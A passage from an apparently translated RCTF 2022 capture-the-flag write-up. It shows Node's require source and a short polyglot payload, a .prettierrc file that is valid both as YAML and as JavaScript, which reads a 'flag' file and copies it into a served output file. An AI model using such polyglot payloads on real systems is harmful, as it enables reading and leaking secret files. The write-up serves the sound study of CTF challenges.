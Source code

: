 ``` js
// Loads a module at the given file path. Returns that module's
// `exports` property.
Module.prototype.require = function(id) {
  validateString(id, 'id');
  if (id === '') {
    throw new ERR_INVALID_ARG_VALUE('id', id,
                                    'must be a non-empty string');
  }
  requireDepth++;
  try {
    return Module._load(id, this, /* isMain */ false);
  } finally {
    requireDepth--;
  }
};
```

Finally, there is also a cool Nu1L payload:

```
/*/../app/.prettierrc
#*/const fs = require('fs'); var a = fs.readFileSync("flag", "utf-8");fs.writeFileSync("./dist/ret.js",a);fs.chmodSync("./dist/ret.js",0o444);process.addListener('uncaughtException', (err) => {console.log("ss",err);process.exit(0);})
```

Here's the translated text:

This utilizes the `require` function that outputs a string as mentioned earlier. Behind the scenes, it first uses YAML parse, so anything after the `#` symbol is a comment. The path part uses `/*` combined with the second line's `*/` to become valid JS. Tql!

Finally, here are other writeups that were found:

1. [RCTF 2022 WriteUp By F61d](https://www.ctfiot.com/85535.html)
2. [2022RCTF WriteUp by Venom](https://cn-sec.com/archives/1460829.html)
